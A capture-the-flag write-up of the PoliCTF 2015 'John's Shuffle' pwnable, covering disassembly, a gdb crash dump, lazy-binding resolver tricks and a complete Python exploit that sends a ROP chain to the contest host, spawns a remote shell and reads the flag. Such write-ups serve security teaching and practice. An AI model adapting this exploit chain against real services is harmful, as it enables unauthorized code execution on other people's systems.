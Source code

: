### Solved by barrebas

John's Shuffle was a 350 point pwnable for PoliCTF 2015. Here's how I cracked it!

<!--more-->

Again, it's a 32 bit ELF binary. Running it yields the following:

```bash
bas@tritonal:~/tmp/polictf/johns-shuffle$ ./johns-shuffle 
It all began as a mistake..


It all began as a mistake..


It all began as a mistake..
```

Not very useful. The disassembly provided some hints, for it had functions like `shuffle`, `unshuffle` and `bubblesort`. The program kicks off by clearing a lot of stack space and calling `unshuffle`. Then, it asks for user input, maximum size 0x44 bytes. I decided to enter 0x44 * `A` (what else?). 

```
    ... clear stack space ...
 8048f30: call   8048df0 <unshuffle>
 8048f35: mov    DWORD PTR [esp],0x804b078
 8048f3c: call   8048710 <puts@plt>
 8048f41: mov    eax,ds:0x804b0c0
 8048f46: mov    DWORD PTR [esp],eax
 8048f49: call   80486c0 <fflush@plt>
 8048f4e: mov    eax,ds:0x804b0a0
 8048f53: mov    DWORD PTR [esp+0x8],eax
 8048f57: mov    DWORD PTR [esp+0x4],0x44
 8048f5f: lea    eax,[esp+0x2c]
 8048f63: mov    DWORD PTR [esp],eax
 8048f66: call   80486e0 <fgets@plt>
```

When runnning the `shuffle` function, the program executes `system()`, which spawns `/bin/dash` on my system, effectively stopping me from debugging it in `gdb`. I patched system in gdb so it would return immediately and I could trace the program. Turns out `shuffle` takes the GOT entries, all the function pointers, and shuffles them around. `unshuffle` negates this operation. After the second time I entered 0x44 A's, the program crashed with control over EIP and EBP:

```
gdb-peda$ start
Temporary breakpoint 2, 0x08048ec2 in main ()
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e9ac30 <system>
gdb-peda$ set *0xf7e9ac30=0xc3
gdb-peda$ c
It all began as a mistake..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

It all began as a mistake..

It all began as a mistake..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xf7fbeff4 --> 0x15fd7c 
ECX: 0x4 
EDX: 0x80487a6 (<difftime@plt+6>:   push   0x88)
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd5c0 ('A' <repeats 31 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd5c0 ('A' <repeats 31 times>)
0004| 0xffffd5c4 ('A' <repeats 27 times>)
0008| 0xffffd5c8 ('A' <repeats 23 times>)
0012| 0xffffd5cc ('A' <repeats 19 times>)
0016| 0xffffd5d0 ('A' <repeats 15 times>)
0020| 0xffffd5d4 ('A' <repeats 11 times>)
0024| 0xffffd5d8 ("AAAAAAA")
0028| 0xffffd5dc --> 0x414141 ('AAA')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```

Cool, easy control over EIP. However, at this point, we cannot rely on the GOT entries, because they are still shuffled! We can't just ret2system. I spent some time trying to return to `unshuffle`, but kept losing control of the program execution. 

But let's take a step back here. Linux ELF binaries employ something called "lazy linking". When a binary is started, the symbols are not resolved yet. Only when a function is called for the first time will the function address be resolved. The GOT entry will be pointing to this look up code (memcpy as example):

```
080486d0 <memcpy@plt>:
 80486d0:   ff 25 1c b0 04 08       jmp    DWORD PTR ds:0x804b01c 
 80486d6:   68 20 00 00 00          push   0x20
 80486db:   e9 a0 ff ff ff          jmp    8048680 <_init+0x2c>
```

When called for the first time, `0x804b01c` will be pointing to `0x80486d6`, which will kick off the function resolver. So instead of using `0x80486d0` to do a memcpy, I'd just use `0x80486d6`. This bypasses the mess that `shuffle` made!

With all this in hand, I wrote an exploit and the corresponding rop chain (well... more like ret2resolve ;)).

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('shuffle.polictf.it', 80))

    readtil('mistake..')
    
    rop = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    rop += p(0x8048696) # resolve -> read (so we can read in `/bin/sh`)
    rop += p(0x804901d) # pppr
    rop += p(0)         # stdin
    rop += p(0x804b130) # free mem area
    rop += p(0x10)
    rop += p(0x8048726) # resolve -> system
    rop += p(0x8048746) # resolve -> exit (makes rasta_mouse happy!)
    rop += p(0x804b130) # arg for system; will contain /bin/sh in a few moments
    
    sendln(rop)
    
    readtil('mistake..')
    sendln(rop)
    readtil('mistake..')
    sendln(rop)
    
    sendln('/bin/sh')
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()

pwn()
```

```bash
bas@tritonal:~/tmp/polictf/johns-shuffle$ python poc.py 

id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cat /home/ctf/*
flag{rand0mizing_things_with_l0ve}
cat: /home/ctf/johnshuffle: Permission denied
```

Easy peasy! The flag was `flag{rand0mizing_things_with_l0ve}`. Nice!

